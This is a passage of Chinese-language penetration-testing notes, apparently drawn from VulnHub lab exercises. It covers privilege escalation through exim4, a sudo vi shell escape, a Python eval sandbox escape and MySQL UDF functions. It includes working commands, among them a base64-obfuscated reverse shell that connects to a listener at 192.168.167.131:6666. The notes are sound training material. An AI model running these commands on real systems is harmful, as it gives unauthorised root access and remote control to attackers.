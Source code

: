 查看exim4当前版本号
```
/usr/sbin/exim4 --version
```
![](_img\14-归类总结/1671608750020-3607d179-1203-4686-ba59-982bf6f8ffbf.jpeg)

查找漏洞<br />![](_img\14-归类总结/1671608750132-40ce5a49-6e68-4b71-990f-f3808e7f81ce.jpeg)

上传脚本，执行后成功<br />![](_img\14-归类总结/1671608750721-d575db80-18f3-420b-a2b2-b619dfa319a0.jpeg)

实例参考链接：[DC-8](https://www.yuque.com/xmtxsec/network_security/vulnhub-dc-8)


## 10.8、vi提权
运行sudo -l发现该用户可以任意用户执行vi<br />![](_img\14-归类总结/1671608750824-deb26ba2-b59e-40b1-a461-5737fdbbd684.jpeg)
```
sudo /usr/bin/vi /tmp/jin
```
![](_img\14-归类总结/1671608750860-4a0e824a-2f88-4cc1-8f24-4015b09203e9.jpeg)

esc退出，然后输入
```
 !/bin/bash
```
![](_img\14-归类总结/1671608751168-334c43ef-ecd6-4bae-8aa4-59039c6f726e.jpeg)


## 10.9、Python沙箱逃逸
1337端口用python编写的，于是尝试python沙箱逃逸<br />查看是以什么权限运行
```
eval('__import__("os").system("whoami")') 
```
![](_img\14-归类总结/1671608751583-f725eda5-0c6f-4c48-a38b-401dfd7991cc.jpeg)

反弹shell
```
eval('__import__("os").system("echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE2Ny4xMzEvNjY2NiAwPiYx|base64 -d|bash")') 
```
![](_img\14-归类总结/1671608751732-91a06e5f-29e5-431c-8f62-51e3afc024a8.jpeg)


## 10.10、Mysql UDF提权
查看开启的端口发现有3306<br />![](_img\14-归类总结/1671608752326-4c85aeb3-acdf-4df5-81ec-8cd4389774cb.jpeg)

```
ps -ef | grep root | grep mysql
```
![](_img\14-归类总结/1671608752336-5b061fd8-213f-4fd3-84d3-27b9b1904261.jpeg)

在查看mysql数据库时很幸运发现已经存在func表，且表中含有执行命令的函数，
```
mysql> use mysql
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed 
mysql> select * from func; 
+-----------------------+-----+---------------------+----------+
|name                   | ret | dl                  | type     |
+-----------------------+-----+---------------------+----------+
| lib_mysqludf_sys_info |   0 | lib_mysqludf_sys.so | function |
| sys_exec              |   0 | lib_mysqludf_sys.so | function |
+-----------------------+-----+---------------------+----------+
```